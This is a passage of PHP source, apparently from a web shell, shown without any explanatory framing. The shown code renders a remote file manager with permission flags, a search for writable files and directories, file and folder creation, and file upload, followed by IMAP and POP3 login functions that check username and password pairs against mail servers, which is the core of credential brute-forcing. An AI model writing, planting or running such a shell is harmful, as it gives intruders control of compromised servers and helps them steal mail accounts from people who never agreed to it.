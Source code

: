 //echo "&lt;/td&gt;${cl1}L";if (is_readable($ln)) echo "R";if (is_writeable($ln)) echo "W";if (is_executable($ln)) echo "X"; echo "&lt;/td&gt;";
echo "$cl1$size&lt;/td&gt;";
echo $cl2.$linkaction;
echo "&lt;/tr&gt;" ;
flusheR();
}
}
$dc = count($dir)-2;
if($dc==-2)$dc=0;
$fc = count($file);
$lc = count($link);
$total = $dc + $fc + $lc;
echo "$table&lt;tr&gt;&lt;td&gt;&lt;form method=POST&gt;Find:&lt;input type=text name=search&gt;&lt;input type=checkbox name=re value=1 style=\"border-width:1px;background-color:#333333;\" checked&gt;Regular expressions &lt;input type=submit class=buttons value=Find&gt;$hcwd&lt;input type=hidden value=7 name=task&gt;&lt;/form&gt;&lt;/td&gt;&lt;td&gt;&lt;form method=POST&gt;$hcwd&lt;input type=hidden value=\"fm\" name=seC&gt;&lt;select name=task&gt;&lt;option value=0&gt;Display files and directories in current folder&lt;/option&gt;&lt;option value=1&gt;Find writable files and directories in current folder&lt;/option&gt;&lt;option value=2&gt;Find writable files in current folder&lt;/option&gt;&lt;option value=3&gt;Find writable directories in current folder&lt;/option&gt;&lt;option value=4&gt;Display all files in current folder&lt;/option&gt;&lt;option value=5&gt;Display all directories in current folder&lt;/option&gt;&lt;/select&gt;&lt;input type=submit class=buttons value=Do&gt;&lt;/form&gt;$et&lt;/tr&gt;&lt;/table&gt;&lt;table width=\"100%\"&gt;&lt;tr&gt;&lt;td width=\"50%\"&gt;&lt;br&gt;&lt;table bgcolor=#333333 border=0 width=\"65%\"&gt;&lt;td&gt;&lt;b&gt;Summery:&lt;/b&gt;   Total: $total Directories: $dc Files: $fc Links: $lc&lt;/td&gt;&lt;/table&gt;&lt;table bgcolor=#333333 border=0 width=\"65%\"&gt;&lt;td width=\"100%\" bgcolor=";if (is_writeable($cwd)) echo "#006E00";elseif (!is_readable($cwd)) echo "#800000";else "#333333"; echo "&gt;Current directory status: "; if (is_readable($cwd)) echo "R";if (is_writeable($cwd)) echo "W" ;echo "&lt;/td&gt;&lt;/table&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"65%\"&gt;&lt;tr&gt;&lt;td width=\"100%\" bgcolor=\"#333333\"&gt;New:&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;$td1n&lt;form method=\"POST\"&gt;&lt;input type=text size=47 name=newf&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;$td2m$hcwd&lt;input class=buttons type=submit name=newfile value=\"File\"&gt;&lt;input class=buttons type=submit name=newdir value=\"Folder\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/td&gt;&lt;td width=\"50%\"&gt;&lt;br&gt;${t}Upload:&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;$td1n&lt;form method=\"POST\" enctype=\"multipart/form-data\"&gt;&lt;input type=file size=45 name=uploadfile&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;$td2m$hcwd&lt;input class=buttons type=submit value=Upload&gt;&lt;/td&gt;&lt;/tr&gt;$td1n Note: Max allowed file size to upload on this server is ".ini_get('upload_max_filesize')."&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;$et";
}
}
function imaplogiN($host,$username,$password){
$sock=fsockopen($host,143,$n,$s,5);
$b=namE();
$l=strlen($b);
if(!$sock)return -1;
fread($sock,1024);
fputs($sock,"$b LOGIN $username $password\r\n");
$res=fgets($sock,$l+4);
if ($res == "$b OK")return 1;else return 0;
fclose($sock);
}
function pop3logiN($server,$user,$pass){
$sock=fsockopen($server,110,$en,$es,5);
if(!$sock)return -1;
fread($sock,1024);
fwrite($sock,"user $user\n");
$r=fgets($sock);
if($r{0}=='-')return 0;
fwrite($sock,"pass $pass\n");
$r=fgets($sock);
fclose($sock);
if($r{0}=='+')return 1;
return 0;